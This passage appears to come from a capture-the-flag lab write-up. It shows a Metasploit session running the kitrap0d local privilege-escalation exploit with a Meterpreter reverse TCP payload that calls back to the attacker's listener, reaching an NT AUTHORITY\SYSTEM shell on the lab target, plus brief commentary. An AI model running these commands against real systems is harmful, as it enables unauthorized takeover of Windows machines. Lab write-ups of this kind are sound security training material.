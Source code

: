 ```
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 3
session => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.x.x:5555 
[*] Launching notepad to host the exploit...
[+] Process 3864 launched.
[*] Reflectively injecting the exploit DLL into 3864...
[*] Injecting exploit into 3864 ...
[*] Exploit injected. Injecting payload into 3864...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.x.x:5555 -> 10.10.10.5:49158) at 2019-10-12 21:28:45 -0500

meterpreter > shell
Process 4044 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>
```

The code block above walks though running the exploit once on the wrong meterpreter session. I realized my mistake and then pointed to the correct one, then the exploit worked and I got an "NT Authority" shell. This is basically root in Windows. Note that I also used a different port since 4444 was already in use. 
